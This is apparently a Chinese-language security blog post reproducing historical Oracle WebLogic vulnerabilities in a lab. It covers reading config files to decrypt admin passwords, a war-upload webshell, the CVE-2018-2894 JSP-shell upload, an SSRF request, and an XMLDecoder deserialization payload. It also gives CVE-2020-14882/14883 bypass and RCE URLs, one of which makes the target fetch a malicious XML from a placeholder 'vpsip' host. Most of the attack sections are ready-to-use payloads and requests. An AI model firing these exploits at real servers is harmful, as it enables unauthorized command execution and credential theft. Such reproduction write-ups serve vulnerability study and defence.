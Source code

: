 ```yaml
---
layout:     post
title:      Weblogic 历史漏洞复现
subtitle:   简单复现一遍 ，防止在用的时候踩坑
date:       2021-02-09
author:     BY Diego
header-img: https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/82211753_p0.jpg
catalog: true
tags:
    - 框架漏洞
    - Java
    - 渗透测试
---
```



### 文件读取漏洞->密码破解



读取weblogic的两个文件

1. security/SerializedSystemIni.dat
2. Config/config.xml

![image-20210202131753947](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210202131753947.png)

SerializedSystemIni.dat的全部内容

![image-20210202131807251](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210202131807251.png)



需要config.xml 的 node-manager-password-encrypted

![image-20210202131817455](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210202131817455.png)



![image-20210202131824728](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210202131824728.png)



解密 tool https://github.com/TideSec/Decrypt_Weblogic_Password （不一定能解密成功）

![image-20210202131830750](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210202131830750.png)



在文件读取中基于环境目录去读取

![image-20210202131837398](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210202131837398.png)

![image-20210202131843743](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210202131843743.png)





### 上传war包 getshell



类似tomcat

条件进入控制台 (知道用户名和密码)

http://127.0.0.1:7001/console



![image-20210202133958000](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210202133958000.png)



![image-20210202142216850](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210202142216850.png)



![image-20210202142346623](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210202142346623.png)

### Weblogic 任意文件上传漏洞（CVE-2018-2894）

访问ws_utc/config.do （无需登录

但需要开起 Web 服务测试页 （实际应用少

将当前的工作目录改为如下

安装目录/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css



![image-20210202150416500](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210202150416500.png)



![image-20210202150543872](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210202150543872.png)

最后访问/ws_utc/css/config/keystore/1612249499610_jsp-shell.jsp

![image-20210202150700688](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210202150700688.png)



### Weblogic ssrf 

```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7001
```

只支持http协议 且存在crlf



![image-20210202190653874](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210202190653874.png)



### Weblogic XMldecode 反序列化

**Weblogic < 10.3.6**

WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令

路径 /wls-wsat/CoordinatorPortType `Content-Type: text/xml`

payload 其他的类似 无回显 特殊字符需要实体编码

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>touch /tmp/2333</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```



![image-20210202203410595](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210202203410595.png)



### weblogic 未授权访问 + rce 漏洞

参考 https://github.com/vulhub/vulhub/blob/master/weblogic/CVE-2020-14882/README.zh-cn.md

未授权访问为CVE-2020-14882

rce 为CVE-2020-14883



**未授权访问**

为二次url编码的../

```
http://ip/console/css/%252e%252e%252fconsole.portal
```

![image-20210209172606703](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210209172606703.png)



**rce**



方法一：

只能在Weblogic 12.2.1以上版本利用

```
http://ip/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```

访问之后404

![image-20210209173247027](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210209173247027.png)





方法二：

对为修复漏洞的所有版本有效

将恶意xml 放在 受害机器能访问到的地方

payload的特殊字符需要实体编码

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

然后发送如下payload

```
http://ip/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://vpsip/rce.xml")
```

同样也会404
